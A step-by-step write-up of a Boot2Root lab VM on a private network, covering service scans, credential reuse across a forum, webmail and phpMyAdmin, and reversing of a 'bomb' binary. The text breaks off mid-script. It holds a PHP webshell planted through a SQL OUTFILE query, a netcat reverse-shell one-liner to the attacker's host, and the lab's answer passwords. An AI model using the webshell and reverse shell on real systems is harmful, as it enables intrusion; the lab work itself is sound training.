









# Table of contents

- [Table of contents](#table-of-contents)
- [Network Setup](#network-setup)
- [Analysis of available services on Boot2Root](#analysis-of-available-services-on-boot2root)
- [Services Lookaround](#services-lookaround)
  - [Http Service Analysis](#http-service-analysis)
  - [Https Service Analysis](#https-service-analysis)
- [Forum Post with command history](#forum-post-with-command-history)
- [Laurie's Account](#lauries-account)
- [Setting up a reverse shell](#setting-up-a-reverse-shell)
- [Privilege Escalation](#privilege-escalation)
  - [www-data](#www-data)
  - [lmezard](#lmezard)
  - [laurie](#laurie)
    - [BOMB Reversing](#bomb-reversing)
      - [Phase 1](#phase-1)
      - [Phase 2](#phase-2)
      - [Phase 3](#phase-3)
      - [Phase 4](#phase-4)
      - [Phase 5](#phase-5)
      - [Phase 6](#phase-6)
      - [Secret phase](#secret-phase)
    - [Conclusion](#conclusion)
    - [Solving the Password](#solving-the-password)
  - [thor's account](#thors-account)
  - [zaz's account](#zazs-account)
    - [The plan](#the-plan)
    - [The exploit](#the-exploit)


# Network Setup
Configure the adapter 2 of the Boot2Root VM to Host-Only on the `vboxnet0` interface.  
> If you want to use another VM like Kali, do the same on that one.  
> _To get Kali you can visit their website : https://www.kali.org/get-kali/_

This will create a private network between our host machine and the VMs.  
> The default network is `192.168.56.0/24`.  

You can check the machines present on the network with: `nmap -sn 192.168.56.0/24`.  
> Our Kali is running on `192.168.56.101` and our exploitable Boot2Root VM on `192.168.56.102`.  

Verify the connectivity Host (or Kali) <--> Boot2Root:
`ping <ip>`

# Analysis of available services on Boot2Root
```bash
$> nmap -sV 192.168.56.102
Starting Nmap 7.80 ( https://nmap.org ) at 2024-10-18 10:41 CEST
Nmap scan report for 192.168.56.102
Host is up (0.000036s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap       Dovecot imapd
443/tcp open  ssl/http   Apache httpd 2.2.22
993/tcp open  ssl/imaps?
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.45 seconds
```

We can see the following services are running:
- FTP on port 21
- SSH on port 22
- HTTP on port 80
- IMAP on port 143
- HTTPS on port 443
- IMAPS on port 993

# Services Lookaround

## Http Service Analysis
First we head to the website : `http://192.168.56.102`
We land on a temporary page telling us the website is preparing its launch, with social networks links.

Let's see what other pages we can find using `dirb`
> _dirb is a tool used to "bruteforce" (hidden) files and directories on a http server using wordlist (common.txt by default)_
```bash
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.56.102   

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Oct 18 04:51:07 2024
URL_BASE: http://192.168.56.102/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

 GENERATED WORDS: 4612

---- Scanning URL: http://192.168.56.102/ ----
+ http://192.168.56.102/cgi-bin/ (CODE:403|SIZE:290)                        
==> DIRECTORY: http://192.168.56.102/fonts/
+ http://192.168.56.102/forum (CODE:403|SIZE:287)                           
+ http://192.168.56.102/index.html (CODE:200|SIZE:1025)                     
+ http://192.168.56.102/server-status (CODE:403|SIZE:295)                   
                                                                            
---- Entering directory: http://192.168.56.102/fonts/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Fri Oct 18 04:51:08 2024
DOWNLOADED: 4612 - FOUND: 4
```

We found 4 pages : `forum`, `index.html`, `server-status`, `cgi-bin/`
And 1 directory : `fonts/`

When we try to visit the `forum`, `server-status` and `cgi-bin/`, we get a 403 Forbidden Access error.
> dirb told us in the command output that we had `CODE:403`, so we could expect that we would get the same error

`index.html` is just the homepage we previously visited.

The `fonts/` directory shows us some font files.

Nothing really helping us right now, let's see what we can find on the other services.

## Https Service Analysis

Just like the Http analysis, we try to visit the page:
`https://192.168.56.102`

This time, there is no homepage to visit.

Let's run `dirb` again on https:

`dirb https://192.168.56.102 -o dirb-https.txt`

> output is saved in `ressources/dirb-https.txt` 

This time we find new folders:
 - `phpmyadmin/` : A Login page to phpmyadmin pannel, to manage MySQL databases
 - `webmail/` : A login page to "SquirrelMail v1.4.22"
 - `forum/` : This time we can visit the page and we land on forum threads.

 # Forum Post with command history

On the forum, we can see a post from the user lmezard where he tries to connect with ssh to different users.

We can see a weird user named `!q\]Ej?*5K5cy*AJ`

We can suppose it is a password.

Let's try to connect to lmezard account on fhe forum with this password.

It works, we now have access to this forum account.

> Also, with the previous usernames found on his post, we can make a user wordlist for later in case we need to bruteforce.

# Laurie's Account

On lmezard account, we can see her mail is `laurie@borntosec.net`



We noticed previously a webmail service on the serveur at `/webmail/`, let's try to use the same password.

It works, we can now access Laurie's mail.

We can see she received a mail concerning a database access with the credentials: `root/Fg-'kKXBj87E:aJ$`



We know phpMyAdmin is running on the server at the address /phpmyadmin/, let's try to connect with these credentials.

It works, we now have a root access to the sql database.

# Setting up a reverse shell

First, we have to find a place where we can upload php files on the server.

By scouting the pages found previously with `dirb`, we can see a `/forum/templates_c` page, which is a listable directory of php files, let's try to upload our webshell here.



We can upload a webshell on the server using a SQL request:
```sql

select 1,2,'<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>',4 into OUTFILE '/var/www/forum/templates_c/backdoor.php'
```

We know the web pages are often located in the `/var/www/` folder.

__Now we can access our webshell !__

We can enter commands by adding `?cmd=<command>` at the end of the url.

This is not really convenient, so we are going to setup a reverse shell.

We used https://www.revshells.com/ to generate a reverse shell command : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.56.101 6942 >/tmp/f`

We need to encode it in the url format (using https://www.urlencoder.org/fr/):`rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.56.101%206942%20%3E%2Ftmp%2Ff`


Then the reverse shell can be set up using `nc`:
```bash
# First we listen on our Kali:
nc -lvnp 6942

# Then we send the command to the server by visiting:
https://192.168.56.102/forum/templates_c/backdoor.php?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|bash%20-i%202%3E&1|nc%20192.168.56.101%206942%20%3E/tmp/f
```



__We now succesfully have a reverse shell on the server.__

We can `enable tty mode` with the following python command: `python -c 'import pty; pty.spawn("/bin/bash")'`

This will allow us to switch user later on.

# Privilege Escalation
## www-data

On the server, we can see a weird home in /home : LOOKATME

Inside we find a password file with `lmezard:G!@M6f4Eatau{sF"`

Let's try to switch user:



It works, we are now lmezard.

## lmezard

In her home, we can find two files:
- `README` : "Complete this little challenge and use the result as a password for user 'laurie' to login in ssh"

- `fun` : a tar archive

Let's send the archive to our host with `nc`:
```bash
# On Kali
nc -lvp 2224 > ft_fun

# On the server
nc 192.168.56.101 2224 < fun
```

Then we extract it : `tar xvf ft_fun`

The archive contains lots of .pcap files, each containing the declaration of a C function.

We can use a python script to rebuild the c file :
```python
import os

files = os.listdir('./ft_fun')
chunks = dict()
for i in files :
    with open('./ft_fun/'+i, 'r') as f :
        l = f.read().split('//file')
        chunks[int(l[1])] = l[0]
chunks = dict(sorted(chunks.items()))
with open('output.c', 'a') as f :
    for i in chunks.values() :
        f.write(i)
```



We can now connect to laurie account by ssh after hashing `Iheartpwnage` with `echo -n "Iheartpwnage" | sha256sum`: 

`330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

## laurie



On her home we find a `bomb` binary file and a `README` telling us to defuse the bomb in order to connect to the user `thor`

### BOMB Reversing

We first use `ghidra` to give the pseudo C that'll make it easier for us.
Then, we are presented with a main with what seems to be 6 inputs that needs to be validated by 6 functions,

Here :
```c
int main(int argc,char **argv)

{
  undefined4 uVar1;
  int in_stack_00000004;
  undefined4 *in_stack_00000008;
  
  if (in_stack_00000004 == 1) {
    infile = stdin;
  }
  else {
    if (in_stack_00000004 != 2) {
      printf("Usage: %s [<input_file>]\n",*in_stack_00000008);
                    // WARNING: Subroutine does not return
      exit(8);
    }
    infile = (_IO_FILE *)fopen((char *)in_stack_00000008[1],"r");
    if ((FILE *)infile == (FILE *)0x0) {
      printf("%s: Error: Couldn\'t open %s\n",*in_stack_00000008,in_stack_00000008[1]);
                    // WARNING: Subroutine does not return
      exit(8);
    }
  }
  initialize_bomb(argv);
  printf("Welcome this is my little bomb !!!! You have 6 stages with\n");
  printf("only one life good luck !! Have a nice day!\n");
  uVar1 = read_line();
  phase_1(uVar1);
  phase_defused();
  printf("Phase 1 defused. How about the next one?\n");
  uVar1 = read_line();
  phase_2(uVar1);
  phase_defused();
  printf("That\'s number 2.  Keep going!\n");
  uVar1 = read_line();
  phase_3(uVar1);
  phase_defused();
  printf("Halfway there!\n");
  uVar1 = read_line();
  phase_4(uVar1);
  phase_defused();
  printf("So you got that one.  Try this one.\n");
  uVar1 = read_line();
  phase_5(uVar1);
  phase_defused();
  printf("Good work!  On to the next...\n");
  uVar1 = read_line();
  phase_6(uVar1);
  phase_defused();
  return 0;
}
```

#### Phase 1

The first phase is straight forward as it just compares the input with a string `Public speaking is very easy.`

```c
void phase_1(undefined4 param_1)

{
  int iVar1;
  
  iVar1 = strings_not_equal(param_1,"Public speaking is very easy.");
  if (iVar1 != 0) {
    explode_bomb();
  }
  return;
}
```

So we have our first input and we can also use pwntools to automate everything.

```py
from pwn import *
import ctypes

r = process('./bomb')
pass1 = "Public speaking is very easy."
print(r.recv().decode())
r.sendline(pass1.encode())
print(r.recv().decode())
```

We get a positive response and we're allowed to move on to phase 2.

#### Phase 2

```c
void phase_2(undefined4 param_1)

{
  int iVar1;
  int aiStack_20 [7];
  
  read_six_numbers(param_1,aiStack_20 + 1);
  if (aiStack_20[1] != 1) {
    explode_bomb();
  }
  iVar1 = 1;
  do {
    if (aiStack_20[iVar1 + 1] != (iVar1 + 1) * aiStack_20[iVar1]) {
      explode_bomb();
    }
    iVar1 = iVar1 + 1;
  } while (iVar1 < 6);
  return;
}
```

The phase_2 function takes in 6 space separated numbers and computes this comparison.

```py
aiStack_20[iVar1 + 1] != (iVar1 + 1) * aiStack_20[iVar1]
```

Which is just means that the next number is equal to the last number times the index + 1. And we just need to compute the same thing and send it to the input :

```py
numbers = [1, 0, 0, 0, 0, 0, 0]
for i in range(0,6):
    numbers[i + 1] = numbers[i] * (i + 1)
pass2 = " ".join([str(i) for i in numbers[1:]])
print(pass2)
r.sendline(pass2.encode())
print(r.recv().decode())
```
This gives us the list `1 2 6 24 120 720`

Good, onto the next phase.

#### Phase 3

```c
void phase_3(char *param_1)

{
  int iVar1;
  char cVar2;
  undefined4 local_10;
  char local_9;
  int local_8;
  
  iVar1 = sscanf(param_1,"%d %c %d",&local_10,&local_9,&local_8);
  if (iVar1 < 3) {
    explode_bomb();
  }
  switch(local_10) {
  case 0:
    cVar2 = 'q';
    if (local_8 != 0x309) {
      explode_bomb();
    }
    break;
  case 1:
    cVar2 = 'b';
    if (local_8 != 0xd6) {
      explode_bomb();
    }
    break;
  case 2:
    cVar2 = 'b';
    if (local_8 != 0x2f3) {
      explode_bomb();
    }
    break;
  case 3:
    cVar2 = 'k';
    if (local_8 != 0xfb) {
      explode_bomb();
    }
    break;
  case 4:
    cVar2 = 'o';
    if (local_8 != 0xa0) {
      explode_bomb();
    }
    break;
  case 5:
    cVar2 = 't';
    if (local_8 != 0x1ca) {
      explode_bomb();
    }
    break;
  case 6:
    cVar2 = 'v';
    if (local_8 != 0x30c) {
      explode_bomb();
    }
    break;
  case 7:
    cVar2 = 'b';
    if (local_8 != 0x20c) {
      explode_bomb();
    }
    break;
  default:
    cVar2 = 'x';
    explode_bomb();
  }
  if (cVar2 != local_9) {
    explode_bomb();
  }
  return;
}
```

Phase 3 is straightforward. We have to choose to figure out the input and the flow that doesn't explode the bomb. For that, we read the code in reverse order and figure out that :
- cVar2 has to be equal to local_9 (second argument)
- Depending on local_10 (first agument), local_8 has to be equal to a certain value.

We can break it down do this small code:
```c
iVar1 = sscanf(param_1,"%d %c %d",&local_10,&local_9,&local_8);
switch(local_10){
  case 1:
      cVar2 = 'b';
      if (local_8 != 0xd6) {
        explode_bomb();
      }
      break;
}
if (cVar2 != local_9) {
    explode_bomb();
}
```
There are multiple solutions but we'll stick with the outcome when we chose 1 as the first argument which will give us `1 b 214`.

```py
pass3 = f'{1} {"b"} {0xd6}'
r.sendline(pass3.encode())
print(r.recv().decode())
```

Onto the next phase.

#### Phase 4

```c
void phase_4(char *param_1)

{
  int iVar1;
  int local_8;
  
  iVar1 = sscanf(param_1,"%d",&local_8);
  if ((iVar1 != 1) || (local_8 < 1)) {
    explode_bomb();
  }
  iVar1 = func4(local_8);
  if (iVar1 != 0x37) {
    explode_bomb();
  }
  return;
}
```

Phase 4 just checks that the output of func4 given the number input is equal to 0x37 which is 55 in base 10.

```c
int func4(int param_1)
{
  int iVar1;
  int iVar2;
  
  if (param_1 < 2) {
    iVar2 = 1;
  }
  else {
    iVar1 = func4(param_1 + -1);
    iVar2 = func4(param_1 + -2);
    iVar2 = iVar2 + iVar1;
  }
  return iVar2;
}
```

This function returns the nth Fibonacci number and all we need to do is find the index that gives 55. And we just google it, it's the 9th.

```py
pass4 = f'{9} austinpowers'
r.sendline(pass4.encode())
print(r.recv().decode())
```

We put austinpowers because of the last step which we'll get to later. Onto the next one.

#### Phase 5

```c
void phase_5(int param_1)

{
  int iVar1;
  undefined local_c [6];
  undefined local_6;
  
  iVar1 = string_length(param_1);
  if (iVar1 != 6) {
    explode_bomb();
  }
  iVar1 = 0;
  do {
    local_c[iVar1] = (&array_123)[(char)(*(byte *)(iVar1 + param_1) & 0xf)];
    iVar1 = iVar1 + 1;
  } while (iVar1 < 6);
  local_6 = 0;
  iVar1 = strings_not_equal(local_c,"giants");
  if (iVar1 != 0) {
    explode_bomb();
  }
  return;
}
```

Phase 5 takes in a string of length 6, takes the last hexadecimal digit using a mask `& 0xf`. Then, it maps that onto a table that is stored as a readonly global. We can extract it by going to its adress and doing a copy special in Ghidra. Which will give us this :

```py
array_123 = "isrveawhobpnutfg"
```
All we need to is to reverse the process by figuring out string that outputs `giants`. There are multiple solutions to that, however, the hint shows us a lowercase character, so we can assume and narrow down our search to only lowercase characters.

We can solve ths using the following python code:

```py
import itertools 

def find_chars_for_index(index):
    chars = []
    for i in range(97, 123):
        if (i & 0xf) == index:
            chars.append(chr(i))
    return chars

def generate_all_solutions(target):
    static_string = "isrveawhobpnutfg"
    result_lists = []
    
    for char in target:
        index = static_string.index(char)
        result_lists.append(find_chars_for_index(index))
    
    all_combinations = list(itertools.product(*result_lists))
    return [''.join(combination) for combination in all_combinations]

target = "giants"
solutions = generate_all_solutions(target)
for solution in solutions:
    print(solution)
```
Result:
```
$>python p5_bomb.py
opekma
opekmq
opukma
opukmq
```
And voila ! We get the passwords. Onto the next phase !

#### Phase 6

```c
void phase_6(char *param_1)

{
  astruct_1 *paVar1;
  astruct *current_node1;
  astruct_1 *current_node2;
  int i;
  undefined1 *unordered_deque;
  astruct_1 *ordered_deque;
  int array [5];
  int 6numbers [6];
  int j;
  
  unordered_deque = node1;
  read_six_numbers(param_1,6numbers);
  i = 0;
  do {
    j = i;
    if (5 < 6numbers[i] - 1U) {
      explode_bomb();
    }
    while (j = j + 1, j < 6) {
      if (6numbers[i] == 6numbers[j]) {
        explode_bomb();
      }
    }
    i = i + 1;
  } while (i < 6);
  i = 0;
  do {
    j = 1;
    current_node1 = (astruct *)unordered_deque;
    if (1 < 6numbers[i]) {
      do {
        current_node1 = (astruct *)current_node1->next;
        j = j + 1;
      } while (j < 6numbers[i]);
    }
    array[i + -1] = (int)current_node1;
    i = i + 1;
  } while (i < 6);
  i = 1;
  current_node2 = ordered_deque;
  do {
    paVar1 = (astruct_1 *)array[i + -1];
    current_node2->next = (int *)paVar1;
    i = i + 1;
    current_node2 = paVar1;
  } while (i < 6);
  paVar1->next = (int *)0x0;
  i = 0;
  do {
    if (*(int *)ordered_deque < *ordered_deque->next) {
      explode_bomb();
    }
    ordered_deque = (astruct_1 *)ordered_deque->next;
    i = i + 1;
  } while (i < 5);
  return;
}
```

This one looks intimidating but really, it's quite straight forward :
- It starts by reading six numbers separated by spaces and makes sure that it is between 1 and 6.
- Then, it loops the first time to check for duplicates.
- It loops again, to reorder a linked list stored as a global and constant by using our input as index and stores the values in an array.
- It loops one last time, to check that the reordered array is in ascending order.

#### Secret phase

The secret phase is only accessible under certain conditions that are found in the phase_defused function.

```c
void phase_defused(void)

{
  int iVar1;
  undefined local_58 [4];
  undefined local_54 [80];
  
  if (num_input_strings == 6) {
    iVar1 = sscanf(input_strings + 0xf0,"%d %s",local_58,local_54);
    if (iVar1 == 2) {
      iVar1 = strings_not_equal(local_54,"austinpowers");
      if (iVar1 == 0) {
        printf("Curses, you\'ve found the secret phase!\n");
        printf("But finding it and solving it are quite different...\n");
        secret_phase();
      }
    }
    printf("Congratulations! You\'ve defused the bomb!\n");
  }
  return;
}
```

It seems that it goes back to the third string because 0xf0 / 0x50 which is the length of a value inside inputstring is 3. Which means that as we've seen in phase 4, we need to add the string austinpowers to the input.

```c
void secret_phase(void)

{
  undefined4 uVar1;
  int iVar2;
  
  uVar1 = read_line();
  iVar2 = __strtol_internal(uVar1,0,10,0);
  if (1000 < iVar2 - 1U) {
    explode_bomb();
  }
  iVar2 = fun7(n1,iVar2);
  if (iVar2 != 7) {
    explode_bomb();
  }
  printf("Wow! You\'ve defused the secret stage!\n");
  phase_defused();
  return;
}
```

The secret phase takes in a long that needs to be over 1000. And then it passes it into func7 along with a global n1 that has to return 7.

```c
int fun7(int *param_1,int param_2)
{
  int iVar1;
  
  if (param_1 == (int *)0x0) {
    iVar1 = -1;
  }
  else if (param_2 < *param_1) {
    iVar1 = fun7(param_1[1],param_2);
    iVar1 = iVar1 * 2;
  }
  else if (param_2 == *param_1) {
    iVar1 = 0;
  }
  else {
    iVar1 = fun7(param_1[2],param_2);
    iVar1 = iVar1 * 2 + 1;
  }
  return iVar1;
}
```

When, we look at function 7 by the look of it. It seems that this is probably an algorithm that does a search in a binary tree because the first conditions checks if our input is less then calls the function recursely to the params_1[2] which is probably the left right node, etc ...

When looking for the first node, I found out that there are all stored in contiguous space inside the program. So I just dumped it using copy special and cast the values back into integers.

```py
n_offset = 0x804b278
n_raw = b'\xe9\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x2f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x23\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x63\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x28\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x6b\x00\x00\x00\xb4\xb2\x04\x08\x78\xb2\x04\x08\x06\x00\x00\x00\xc0\xb2\x04\x08\x9c\xb2\x04\x08\x2d\x00\x00\x00\xcc\xb2\x04\x08\x84\xb2\x04\x08\x16\x00\x00\x00\x90\xb2\x04\x08\xa8\xb2\x04\x08\x32\x00\x00\x00\xf0\xb2\x04\x08\xd8\xb2\x04\x08\x08\x00\x00\x00\xe4\xb2\x04\x08\xfc\xb2\x04\x08\x24\x00\x00\x00\x14\xb3\x04\x08\x08\xb3\x04\x08'
n = list()
for i in range(0, len(n_raw), 12) :
    value = int.from_bytes(n_raw[i:i+4], byteorder="little")
    left = int.from_bytes(n_raw[i+4:i+8], byteorder="little") % n_offset
    right = int.from_bytes(n_raw[i+8:i+12], byteorder="little") % n_offset
    n.append((value, int(left / 12), int(right / 12)))
print(n)
```
```text
[(1001, 0, 0), (47, 0, 0), (20, 0, 0), (7, 0, 0), (35, 0, 0), (99, 0, 0), (1, 0, 0), (40, 0, 0), (107, 5, 0), (6, 6, 3), (45, 7, 1), (22, 2, 4), (50, 10, 8), (8, 9, 11), (36, 13, 12)]
```
The value 7 tells us that the algorithm does one right and two lefts. But we don't care because there is only one value over 1000 in the tree which is 1001.

And voila, we have our input :
```py
n_offset = 0x804b278
n_raw = b'\xe9\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x2f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x23\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x63\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x28\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x6b\x00\x00\x00\xb4\xb2\x04\x08\x78\xb2\x04\x08\x06\x00\x00\x00\xc0\xb2\x04\x08\x9c\xb2\x04\x08\x2d\x00\x00\x00\xcc\xb2\x04\x08\x84\xb2\x04\x08\x16\x00\x00\x00\x90\xb2\x04\x08\xa8\xb2\x04\x08\x32\x00\x00\x00\xf0\xb2\x04\x08\xd8\xb2\x04\x08\x08\x00\x00\x00\xe4\xb2\x04\x08\xfc\xb2\x04\x08\x24\x00\x00\x00\x14\xb3\x04\x08\x08\xb3\x04\x08'
n = list()
for i in range(0, len(n_raw), 12) :
    value = int.from_bytes(n_raw[i:i+4], byteorder="little")
    left = int.from_bytes(n_raw[i+4:i+8], byteorder="little") % n_offset
    right = int.from_bytes(n_raw[i+8:i+12], byteorder="little") % n_offset
    n.append((value, int(left / 12), int(right / 12)))
print(n)
secret_pass = str(1001)
r.sendline(secret_pass.encode())
print(r.recv().decode())
```

### Conclusion

We reversed each step and found the values that did not trigger the bomb by "executing the code backwards". And voila. The full script is in bomb-solve.py
BOMB.md
15 Ko

### Solving the Password

The README we found in laurie's home indicates the following:
```
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

We suppose that the password is the concatenation of the passwords we found in the previous phases.

The hint from the README should help us to know the order of the passwords.

We also need to remove the spaces.

After trying and tweaking around different combinations, we found the password to be : `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

This password matches the hint line by line:

`P`ublicspeakingisveryeasy.

1`2`624120720

1`b`214

9

`o`pekmq

`4`26135

> We are not so sure yet why there is a secret phase in the bomb since it is not required in the password, we think the school subject is wrong and unclear on this part.
Also we found different matching patterns for some steps, enhancing the unclearness of the subject.

With this password we can get access to the `thor` account and proceed to the next step.

## thor's account

Once again, we find the next challenge in the user's home.

There is a README telling us to find the password to access the user `zaz` and a text file `turtle`.

It contains movement instructions for a turtle, so we can suppose we are going to need to draw its path to find the password.

We can write a simple python script using the `turtle` library to draw the path.

```py
import turtle
import re

t = turtle.Turtle()

screen = turtle.Screen()
screen.bgcolor("white")
t.speed(10)

t.penup()
t.goto(0, 0)
t.pendown()

def execute_instructions(instructions):
    for line in instructions.splitlines():
        match = re.match(r"(Avance|Recule) (\d+) spaces", line)
        if match:
            move_type = match.group(1)
            distance = int(match.group(2))
            if move_type == "Avance":
                t.forward(distance)
            elif move_type == "Recule":
                t.backward(distance)
            continue

        match = re.match(r"Tourne (gauche|droite) de (\d+) degrees", line)
        if match:
            turn_direction = match.group(1)
            degrees = int(match.group(2))
